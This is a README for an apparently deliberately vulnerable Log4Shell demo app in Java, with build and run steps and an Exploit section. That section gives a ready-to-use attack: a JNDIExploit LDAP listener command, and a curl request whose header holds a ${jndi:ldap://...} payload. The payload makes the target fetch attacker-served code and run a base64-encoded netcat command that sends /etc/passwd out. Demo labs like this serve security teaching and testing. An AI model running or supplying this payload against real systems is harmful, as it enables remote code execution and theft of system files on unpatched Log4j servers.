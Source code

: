 # log4shell example

## Requrements:

- java 8

## Build

    ./gradlew clean build

## Run

    java -jar build/lib/log4shell-0.0.1.jar

## Exploit
> run with **java 8**

- start LDAP listener  
    `java-se-8u41-ri/bin/java -jar JNDIExploit-1.2-SNAPSHOT.jar -i $MY_IP -p 8888`

- run exploit  
    `curl -X POST $TARGET_IP:8080/api/7678-IUFHG-9087-KJLJLJ -H '7987-LKJKF-9080-IUUZU-9876: ${jndi:ldap://$MY_IP:1389/Basic/Command/Base64/bmMgMTI3LjAuMC4xIDQwNDAgPCAvZXRjL3Bhc3N3ZAo=}'`